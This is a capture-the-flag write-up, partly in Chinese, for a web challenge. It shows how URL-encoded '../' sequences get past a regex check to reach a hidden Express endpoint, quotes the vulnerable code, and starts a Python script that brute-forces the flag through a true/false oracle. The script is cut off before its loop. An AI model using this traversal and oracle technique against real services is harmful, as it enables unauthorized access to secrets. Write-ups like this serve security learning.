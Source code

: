 2. **Found unused local endpoint** */looksLikeFlag*
    - 在網頁正常使用下我們都不會呼叫 "/looksLikeFlag" 這個 api endpoint，仔細看一下後端 express 這兩個 endpoint's url，如果我們能透過 text 變數回到上一層就可以戳到 /looksLikeFlag 了:
        - http://127.0.0.1:7414/api/v1/emoji/${text}
        - http://127.0.0.1:7414/api/v1/looksLikeFlag
    - 一般而言我們不可能，因為 api 格式就是固定的，但題目故意開一個漏洞讓我們可以由 `../` 返回上一層。注意要做 url encoding 規避掉 regex 的 `.` 句號檢查。(其實我第一個想到的漏洞是LFI，但這題環境是 nodeJS 不是 php，`?file=`這個參數他不收) 
    ![](img-postman.png)

3. **Found response body contain a looksLikeFlag parameter, can *brutefource* to retrieve flag digit by digit.**
```js
const { FLAG } = require('./secret.js');
...
apiRouter.use('/looksLikeFlag', (req, res, next) => {
    // 小提示: 照理來說assert只會出現在 unit test 中，暗示 FLAG 只包含這些字元。
    assert(FLAG.match(/^FLAG{[a-z0-9_]+}$/)); 
    // includes() 會核對API參數和真實的FLAG，只會回傳 true / false。
    res.send({ looksLikeFlag: FLAG.includes(req.query.flag) }); 
});
```

最終程式碼:  
:white_check_mark: 小技巧: 善用 string.digits 以及 string.ascii_lowercase。
```python {linenos=table, linenostart=0}
# Exploit the flag regex with brut-force requests
# request body: 
#   {"text": "%2E%2E/looksLikeFlag?flag=FLAG{xxxx}"}
#   FLAG{xxxx} is the flag
#   We need to find out string xxxx

import requests

host = "http://splitline.tw:5000/public_api"
exploitEndpoint = "%2E%2E/looksLikeFlag" # goback to the other endpoint: ../looksLikeFlag
flag = "" # store the flag with a list

# a-z 0-9 _ }
digits = [chr(ord('a') + i) for i in range(26)] + \
         [str(i) for i in range(10)] + ['_', '}']

```